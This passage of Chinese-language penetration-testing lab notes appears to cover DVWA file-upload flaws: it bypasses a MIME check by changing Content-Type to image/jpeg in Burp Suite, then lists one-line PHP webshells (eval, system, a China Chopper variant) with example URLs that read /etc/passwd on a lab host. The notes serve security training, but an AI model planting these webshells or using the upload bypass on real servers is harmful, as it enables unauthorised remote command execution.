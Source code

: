 a. 开启burpsuite的代理功能（直接在kali上面操作）

选择 proxy - options，添加端口代理转发：

![image-20220901215309446](D:\Ronnie\.assets\image-20220901215309446.png)

b. 开启代理拦截功能：

![image-20220901215727626](D:\Ronnie\.assets\image-20220901215727626.png)

c. 打开windows渗透机器，配置火狐浏览器使用burpsuite代理：

![image-20220901220128755](D:\Ronnie\.assets\image-20220901220128755.png)

d. 上传php文件：

![image-20220901220521106](D:\Ronnie\.assets\image-20220901220521106.png)

e. 此时，请求被burpsuite拦截了，这边将Content-Type类型改成 image/jpeg，然后点击Forward转发：

![image-20220901220937674](D:\Ronnie\.assets\image-20220901220937674.png)

此时我们可以看到已经上传成功了

![image-20220901221155128](D:\Ronnie\.assets\image-20220901221155128.png)

### 3. high高安全级别，限制了文件的后缀名

---



## 3.webshell

- 小马：一句话木马，即整个shell代码只有一行，一般是系统执行函数

- 大马：代码量和功能比小马多，一般会进行二次编码加密，防止被安全防火墙入侵系统检测到

*eval 调用函数*

```php
<?php eval($_REQUEST['cmd']);?>
```

例如：http://10.61.8.209/dvwa/hackable/uploads/shell1.php?cmd=phpinfo();

*system 使用linux系统命令*

```php
<?php system($_REQUEST['variable']);?>
```

例如：http://10.61.8.209/dvwa/hackable/uploads/shell2.php?variable=cat /etc/passwd

**说明： REQUEST是在网页输入变量访问，POST则是使用中国菜刀之类的工具连接，是c/s架构。所以我一般用POST方式更方便。**

中国菜刀：

```php
<?php @eval($_POST['chopper']);?>
```

---
